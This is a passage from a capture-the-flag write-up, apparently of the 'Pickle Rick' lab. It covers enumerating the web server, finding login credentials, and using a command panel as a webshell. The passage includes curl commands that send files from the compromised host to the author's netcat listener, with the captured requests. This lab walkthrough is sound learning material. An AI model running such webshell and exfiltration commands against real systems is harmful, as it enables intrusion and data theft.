 ```sh
/robots.txt           (Status: 200) [Size: 17]  
```

Bum, right away. `portal.php` redirects to `login.php`, but:

```sh
$ curl http://10.10.124.36/robots.txt

Wubbalubbadubdub
```

Using `R1ckRul3s/Wubbalubbadubdub` credentials I can successfully authorize on `login.php`.

![pr_portal.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1621970938776/TlY6RyJbJ.png)

I'm firing up `burpsuite` to map the site as I'm going through.

![pr_denied.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1621970956559/f1fSU-FXx.png)

Uhm... We have access "only" to commands tab.

![pr_command_whoami.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1621970973874/pVbRK9nm5.png)

All right! Webshell as `www-data` user.

Let's fire up `netcat` and see if we can [curl](https://blog.cyberethical.me/linpeas) that out (`cat` is disabled via that webshell)

```sh
# Webshell
curl --data-binary @Sup3rS3cretPickl3Ingred.txt 10.XX.XX.XXX:443
```

```sh
# Local
$ nc -lvnp 443                                           

listening on [any] 443 ...
connect to [10.XX.XX.XXX] from (UNKNOWN) [10.10.124.36] 56886
POST / HTTP/1.1
Host: 10.XX.XX.XXX:443
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 17
Content-Type: application/x-www-form-urlencoded

/FIRST FLAG CUT/
```

And also the `clue.txt`:

```sh
# Webshell
curl --data-binary @clue.txt 10.XX.XX.XXX:443
```

```sh
# Local
$ nc -lvnp 443

listening on [any] 443 ...
connect to [10.XX.XX.XXX] from (UNKNOWN) [10.10.124.36] 56894
POST / HTTP/1.1
Host: 10.XX.XX.XXX:443
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 54
Content-Type: application/x-www-form-urlencoded

Look around the file system for the other ingredient.
```
